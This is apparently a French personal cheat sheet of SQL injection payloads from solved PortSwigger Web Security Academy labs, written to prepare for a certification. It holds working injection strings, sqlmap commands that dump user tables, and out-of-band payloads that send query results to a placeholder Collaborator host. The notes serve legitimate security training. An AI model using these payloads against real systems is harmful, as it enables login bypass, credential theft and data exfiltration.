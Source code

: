# Liste des commandes SQLi, XSS, CRCF ect.... pour passer la certification


## 1/ SQL injection

- [X] SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

    `?category=Pets' OR 1=1 --`

- [X] SQL injection vulnerability allowing login bypass
    
    `csrf=ok13OxKIWATN6nuJiviRmIaPQBeSNtTB&username=administrator'--&password=test`
    

- [X] SQL injection UNION attack, determining the number of columns returned by the query

    `?category=Pets'+UNION+SELECT+NULL,NULL,NULL--`

- [X] SQL injection UNION attack, finding a column containing text

    `?category=Pets'+UNION+SELECT+NULL,'3QFtaD',NULL--`

- [X] SQL injection UNION attack, retrieving data from other tables

    `?category=Gifts'+UNION+SELECT+username,password+from+users--`

- [X] SQL injection UNION attack, retrieving multiple values in a single column

    `?category=Pets'+UNION+SELECT+NULL,CONCAT(username,'+',password)+FROM+users--`
   
- [X] SQL injection attack, querying the database type and version on Oracle

    `?category=Pets'+UNION+SELECT+'a',banner+FROM+v$version--`

- [X] SQL injection attack, querying the database type and version on MySQL and Microsoft

    `?category=Gifts'+UNION+SELECT+@@version,+'a'#` # pour les commentaires en MySQL

- [X] SQL injection attack, listing the database contents on non-Oracle databases

    ```sqlmap -u URL
    
    --all #Retrieve everything
    
    --dump #Dump DBMS database table entries
    
    --dbs #Names of the available databases
    
    --tables #Tables of a database ( -D <DB NAME> )
    
    --columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
    
    -D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column```
    
    
- [X] SQL injection attack, listing the database contents on Oracle

    ```
    sqlmap -u URL -D DB -T TABLE --dump
    ```

- [X] Blind SQL injection with conditional responses
    
    SQLi dans un cookie :
    
    `sqlmap -u https://0a3700fb034bd637809b997f00c0000c.web-security-academy.net --level 3 --param-filter='COOKIE' --cookie='TrackingId=Po558KqESh0tBbOQ; session=Q4g1iOWrZkGDUZefNNOOqJRqpOXqKWY8'`
    
    Le cookie est vulnérable :
    
        `sqlmap -u https://0a3700fb034bd637809b997f00c0000c.web-security-academy.net --level 3 --param-filter='COOKIE' --cookie='TrackingId=Po558KqESh0tBbOQ; session=Q4g1iOWrZkGDUZefNNOOqJRqpOXqKWY8' -D public -T users --dump`
    

- [X] Blind SQL injection with conditional errors

    `sqlmap -u https://0a1000590442bc9a801fc67600f200ab.web-security-academy.net/ --level 3 --param-filter='COOKIE' --cookie='TrackingId=hW88IAKyNKdKynag; session=CCL1SGTI9xOkwZgLmrp1s8r2CsNJ6aao' -D PETER -T USERS --dump`

- [ ] Visible error-based SQL injection

- [X] Blind SQL injection with time delays

    `sqlmap -u https://0a20005903275bbc80e42bc700710057.web-security-academy.net/ --level 3 --risk 3 --param-filter='COOKIE' --cookie='TrackingId=33iPOvvWyVfcT3Di; session=dZhzxLd1oNXuUbKrImxt3IhY4dMNTUPp' --dbms=postgresql -D public -T users --dump`
    
    Ca marche mais l'exercice veut un delay de 10sec pour une base postgresql : `TrackingId=33iPOvvWyVfcT3Di' || pg_sleep(10)--`

- [X] Blind SQL injection with time delays and information retrieval

    `sqlmap -u https://0a350086042c640081e0d44d00c70068.web-security-academy.net/ --level 3 --cookie='TrackingId=oCa0SUxSuv7kOdtU; session=DMHLaGLDeWDTGZwbjdwQ2PieyYmuEUUg' --param-filter='COOKIE' -D public -T users --dump`


- [X] Blind SQL injection with out-of-band interaction

    Il faut BurpSuite Professional
    
    On active le "Collaborator"
    
    Payload : 
    
        ```Oracle 	SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://LINK-COLLABORATOR/"> %remote;]>'),'/l') FROM dual
            Microsoft 	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
            PostgreSQL 	create OR replace function f() returns void as $$
            declare c text;
            declare p text;
            begin
            SELECT into p (SELECT YOUR-QUERY-HERE);
            c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
            execute c;
            END;
            $$ language plpgsql security definer;
            SELECT f();
            MySQL 	The following technique works on Windows only:
            SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
        ```
        
    On colle le lien "Collaborator" :
    
    ``` '|| (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://LINK-COLLABORATOR/"> %remote;]>'),'/l') FROM dual)--```
    
    On encore URL
    
    ```
    '||+(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//LINK-COLLABORATOR/">+%25remote%3b]>'),'/l')+FROM+dual)--
    ```

- [ ] Blind SQL injection with out-of-band data exfiltration

- [ ] SQL injection with filter bypass via XML encoding






## 2/ XSS

